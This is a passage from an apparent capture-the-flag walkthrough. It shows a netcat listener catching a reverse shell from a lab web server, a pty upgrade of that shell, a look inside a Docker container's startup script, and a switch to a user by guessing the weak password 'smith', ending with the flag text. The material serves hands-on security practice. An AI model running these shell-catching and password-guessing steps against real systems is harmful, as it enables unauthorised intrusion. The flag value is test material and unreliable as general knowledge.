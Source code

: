 ```
nc -vnlp 9000
listening on [any] 9000 ...
connect to [192.168.159.129] from (UNKNOWN) [192.168.159.132] 50930
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@12081bd067cc:/www$
```

From the hostname, we seem to be inside a Docker container. In the root directory I found a script:

```
www-data@12081bd067cc:/www$ cat /main.sh
cat /main.sh
#!/bin/bash

# change permission
chown smith:users /home/smith/flag.txt

# Start apache
source /etc/apache2/envvars
a2enmod rewrite
apachectl -f /etc/apache2/apache2.conf

sleep 3
tail -f /var/log/apache2/*&

# Start our fake smtp server
python -m smtpd -n -c DebuggingServer localhost:25
```

Interesting, there is a flag available for user smith. I switched to this user and tried the password smith and it worked:

```
smith@12081bd067cc:~$ ls -al
ls -al
total 28
drwx------ 1 smith users 4096 Mar 26  2017 .
drwxr-xr-x 1 root  root  4096 Mar 26  2017 ..
-rw-r--r-- 1 smith users  220 Nov  5  2016 .bash_logout
-rw-r--r-- 1 smith users 3515 Nov  5  2016 .bashrc
-rw-r--r-- 1 smith users  675 Nov  5  2016 .profile
drwx--S--- 2 smith users 4096 Mar 22  2017 .ssh
-rw-r--r-- 1 smith users  237 Mar 22  2017 flag.txt
smith@12081bd067cc:~$ cat flag.txt
cat flag.txt
This is not the end, sorry dude. Look deeper!
I know nobody created a user into a docker
container but who cares? ;-)

But good work!
Here a flag for you: flag0{9fe3ed7d67635868567e290c6a490f8e}

PS: I like 1984 written by George ORWELL
```
